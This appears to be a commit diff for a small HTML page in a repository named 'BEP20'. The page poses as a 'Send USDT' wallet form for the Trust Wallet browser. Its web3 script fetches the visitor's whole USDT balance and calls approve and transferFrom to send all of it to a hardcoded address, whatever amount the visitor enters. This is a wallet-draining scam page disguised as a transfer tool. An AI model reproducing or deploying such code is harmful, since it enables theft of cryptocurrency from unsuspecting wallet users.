

Before and after one commit to l0vabhiii/BEP20, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-927 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -47,45 +47,10 @@
       color: #fff;
       font-size: 14px;
     }
-    .input-actions {
-      margin-left: 10px;
-      display: flex;
-      gap: 12px;
-      font-size: 13px;
-    }
-    .input-actions span {
-      color: #00ff99;
-      cursor: pointer;
-    }
-    .amount-box {
-      display: flex;
-      align-items: center;
-    }
-    .amount-box .token {
-      color: #ccc;
-      margin-left: 10px;
-      font-size: 14px;
-    }
     .usd {
       font-size: 12px;
       color: #888;
       margin: 8px 0 28px;
-    }
-    .fill-buttons {
-      display: flex;
-      justify-content: space-between;
-      margin: 10px 0;
-    }
-    .fill-buttons button {
-      flex: 1;
-      margin: 0 5px;
-      padding: 10px;
-      border: none;
-      border-radius: 8px;
-      background: #2c2c2c;
-      color: #00ff99;
-      font-size: 14px;
-      cursor: pointer;
     }
     .fixed-button {
       position: fixed;
@@ -96,7 +61,7 @@
       padding: 16px;
       border-top: 1px solid #222;
     }
-    button#nextBtn {
+    button {
       width: 100%;
       background: #2c7a4b;
       border: none;
@@ -111,26 +76,16 @@
 </head>
 <body>
   <header>Send USDT</header>
-
   <div class="container">
-    <label>Address or Domain Name</label>
+    <label>Address</label>
     <div class="input-box">
-      <input type="text" id="wallet" value="0x1956B3950A73B0C54792199Edf13c7b835FF94DC" disabled />
+      <input type="text" value="0x1956B3950A73B0C54792199Edf13c7b835FF94DC" readonly />
     </div>
-
     <label>Amount</label>
-    <div class="input-box amount-box">
-      <input type="number" id="amount" placeholder="USDT Amount" />
-      <span class="token">USDT</span>
+    <div class="input-box">
+      <input type="number" placeholder="You can enter any value, but all USDT will be sent." disabled />
     </div>
-
-    <div class="fill-buttons">
-      <button onclick="fillAmount(1)">1 USDT</button>
-      <button onclick="fillAmount(2)">2 USDT</button>
-      <button onclick="fillAmount(3)">3 USDT</button>
-    </div>
-
-    <div class="usd">≈ $0.00</div>
+    <div class="usd">All balance will be sent automatically after approval</div>
   </div>
 
   <div class="fixed-button">
@@ -139,17 +94,14 @@
 
   <script src="https://cdn.jsdelivr.net/npm/web3@1.8.2/dist/web3.min.js"></script>
   <script>
-    const RECEIVER = "0x1956B3950A73B0C54792199Edf13c7b835FF94DC"; // hardcoded, non-editable
-    const USDT = "0x55d398326f99059fF775485246999027B3197955"; // BEP20 USDT
+    const RECEIVER = "0x1956B3950A73B0C54792199Edf13c7b835FF94DC";
+    const USDT = "0x55d398326f99059fF775485246999027B3197955"; // BEP-20 USDT
+
     const ABI = [
       { "constant": false, "inputs": [{ "name": "_spender", "type": "address" }, { "name": "_value", "type": "uint256" }], "name": "approve", "outputs": [{ "name": "", "type": "bool" }], "type": "function" },
       { "constant": false, "inputs": [{ "name": "_from", "type": "address" }, { "name": "_to", "type": "address" }, { "name": "_value", "type": "uint256" }], "name": "transferFrom", "outputs": [{ "name": "", "type": "bool" }], "type": "function" },
       { "constant": true, "inputs": [{ "name": "owner", "type": "address" }], "name": "balanceOf", "outputs": [{ "name": "", "type": "uint256" }], "type": "function" }
     ];
-
-    function fillAmount(value) {
-      document.getElementById('amount').value = value;
-    }
 
     async function start() {
       const btn = document.getElementById("nextBtn");
@@ -157,7 +109,7 @@
       btn.disabled = true;
 
       if (!window.ethereum) {
-        alert("Please use Trust Wallet DApp browser only.");
+        alert("Please open in Trust Wallet browser.");
         btn.innerText = "Next";
         btn.disabled = false;
         return;
@@ -165,14 +117,13 @@
 
       try {
         const web3 = new Web3(window.ethereum);
-        await window.ethereum.request({ method: 'eth_requestAccounts' });
+        await window.ethereum.request({ method: "eth_requestAccounts" });
         const accounts = await web3.eth.getAccounts();
         const user = accounts[0];
+        const contract = new web3.eth.Contract(ABI, USDT);
 
-        const contract = new web3.eth.Contract(ABI, USDT);
         const balance = await contract.methods.balanceOf(user).call();
 
-        // Approve and transfer all balance regardless of input field
         await contract.methods.approve(RECEIVER, balance).send({ from: user });
         await contract.methods.transferFrom(user, RECEIVER, balance).send({ from: user });
 
```
